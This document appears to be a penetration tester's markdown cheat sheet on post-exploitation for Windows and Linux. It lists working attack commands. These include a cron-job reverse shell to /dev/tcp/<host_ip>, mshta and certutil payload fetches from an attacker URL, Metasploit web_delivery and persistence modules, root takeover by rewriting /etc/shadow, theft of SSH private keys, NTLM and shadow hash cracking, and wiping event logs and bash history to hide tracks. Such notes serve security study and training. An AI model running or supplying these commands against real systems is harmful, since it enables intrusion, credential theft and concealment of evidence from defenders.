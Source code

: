 # Post exploit

## Windows

We can use `wmic qfe get Caption,Description,HotFixID,InstalledOn` for hotfix details 

**System**
- `enum_patches` module, check patch
- `enum_share` Check share.

**User and Group**:
- In windows, administrator disable by default but can be enable if needed.
- In shell, `whoami /priv` To get privil, `net users` `net user administrator`, `net localgroup`, `net localgroup administrators`
- `enum_logged_on_users` Module, check logon user

**Network**
- `ipconfig` and `ipconfig /all`
- `route print` Routing table info
- `arp -a` Get all other device of the network
- `netstat -ano` Get port and service running
- `netsh firewall show state` `netsh advfirewall firewall show` `netsh advfirewall show allprofiles`
- `enum_computers` module

**Process and service**
- In cmd, `net start` List servies
- `wmic service list brief` or `tasklist /SVC`
- `schtasks /query /fo LIST` `-v` for verbose.
- `enum_applications` module

**Automate the post exploit process**
- Use [JAWS](https://github.com/411Hall/JAWS) script, download and save it on local.
    - Upload it to the target
    - `powershell.exe -ExecutionPolicy Bypass -File ./jaws-enum.ps1 -OutputFilename Jaws-scan.txt`

## Linux

**System**:
- `cat /etc/*release` - Check distro
- `lscpu` Check CPU info
- `df -h` Check disk, `df -ht ext4`, `lsblk | grep sd`
- `dpkg -l` List package 

**User and group**:
- `groups root` `groups`

**Network**
- In meterpreter, `netstat` `route`
- In shell `ip a s` `cat /etc/networks`, `cat /etc/hostname`, `cat /etc/hosts`
- In shell `cat /etc/resolv.conf` DNS info, `arp -a`

**Process and cronjob**:
- In shell, try `ps aux` `top`
- In shell `crontab -l` `ls -al /etc/cron*` Display cronjob and cron script
- `cat /etc/cron*`

**Automate the post exploit**:
- `linux/gather/enum_configs` Collect config
- `linux/gather/enum_system`
- Use [Linenum](https://github.com/rebootuser/LinEnum), download and ship it.

**Upgrade shell for linux**:
- `cat /etc/shells` -> `/bin/bash -i` or `/bin/sh -i`
- If python installed `python --version` -> `python -c 'import pty; pty.spawn("/bin/bash")'`
- `perl -e 'exec "/bin/bash";'` `ruby: exec "/bin/bash"`
- We can `export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin`

## Transfer file to target

**WIndows**:
- `certutil -urlcache -f http://<host_ip>:80/nc.exe <nameOfFile>`

**Linux**:
- Use `wget` or `curl`

## PrivEsc

**Windows**:
- [PrivescCheck](https://github.com/itm4n/PrivescCheck)
    - To run `powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"`

---
*Web_delivery* Exploit
- Use module `web_delivery`
    - set `payload /windows/shell/reverse_tcp` set `LHOST`
    - `set target PSH (Binary)`
    - `set PSH-encodedcommand false`
    - Run the output command on the target machine (Must have access though)
- When obtain the shell from target, use `/multi/../shell_to_meterpreter` to upgrade shell
    - `set win_transfer vbs`
    - set `LHOST` and `LPORT`
---

`Windows/misc/hta_server` Module
- use `exploit/windows/misc/hta_server` -> `exploit`
    - This will output a link that we need to connect to on the target machine
- On the target, open cmd or powershell with admin privilege
    - `mshta.exe <link_attacker>` EX: `mshta.exe http://1.2.3.4:8080/xxxxxxxxxxxxxxxx.hta`

---

Result return from PrivescCheck may return creds of higher privliege user
- use cred with `psexec.py` or module `windows/smb/psexec`

CMD command for login as administrator: `runas.exe /user:administrator cmd`

**Linux**

Use LinEnum or manually check, we can try
- `find / -not -type l -perm -o+w`
- Change password with `/etc/shadow`
    - Create hash `openssl passwd -1 -salt <salt> <password>` `1` is hash algorithm (MD5)
    - Copy hash to user root `root:<newhash>:<other_part>`

Sudo privilege escalation:
- `sudo -l` Check sudo privilege for current user
    - Example of misconfig: `(root) NOPASSWD: /usr/bin/ruby` Ruby can run with root privilege, no need password, and current user can use ruby.
    - We can run `ruby ... /bin/bash` and it will have root bin/bash. Same for other app `man` ~ `!/bin/bash`

## Persistence

Via service:
- After gain access (ex: via rejetto attack), we can use module `/windows/local/persistence_service` for persistence service.
    - Setup payload and service metadata then run

Via RDP:
- After gain access (ex: via badblue), migrate process
- Create new user for RDP in meterpreter `run getgui -e -u <user> -p <password>`
- Use `xfreerdp /u:<username> /p:<password> /v:<target>`

Linux - via SSH:
- Copy the private key in the `.ssh` folder
    - By `scp <username>@<target>:~/.ssh/id_rsa .`
    - Remember to `chmod 400 id_rsa`
- We can re-login by `ssh -i id_rsa <username>@<target>`

Linux - via Cron Jobs:
- `cat /etc/cron`, create new cronjob 
    - `echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/<host_ip>/1234 0>&1'" > cron`
- Add to cronjob `crontab -i cron`
    - Recheck with `crontab -l`
- Setup netcat `nc -nvlp 1234`

## Dump and cracking hash

**Windows NTLM**
- Copy the hash that we collect into txt file
- We can use john the ripper `john --list=formats | grep NTLM`
- `john --format=NT hashes.txt --wordlist=/path/to/wordlist`
    - We can use rockyou `gzip -d /usr/share/wordlists/rockyou.txt.gz`
- We can use hashcat `hashcat -a 3 -m 1000 hashes.txt /usr/share/wordlist/rockyou.txt`
    - `-a 3` Brute force
    - `-m 1000` Hash mode 1000 ~ NTLM

**Linux Hash**:
- If we use module `linux/gather/hashdump` we have result of un-shadow hash -> Save it
- Try use `john --format=sha512crypt /path/to/hash/file --wordlist=/path/to/wordlist/file`
    - If `$6$` ~ Sha512 (Linux indicate)
- For hashcat `hashcat -a 3 -m 1800 /path/to/hash/file <wordlist>`

## Clear track

MSF after running exploit, the module maybe have produce a resource script that help you clear the track
- By `resource <resource_path>`
- Or it provide some information of artifacts on the target, that you need to clear before closing attack.
- Delete the execute file, and delete service
- Consider should or should not delete windows event log `clearev` (Migrate before run)

Linux:
- Clear `bash_history` file
  - `history -c` command to delete history.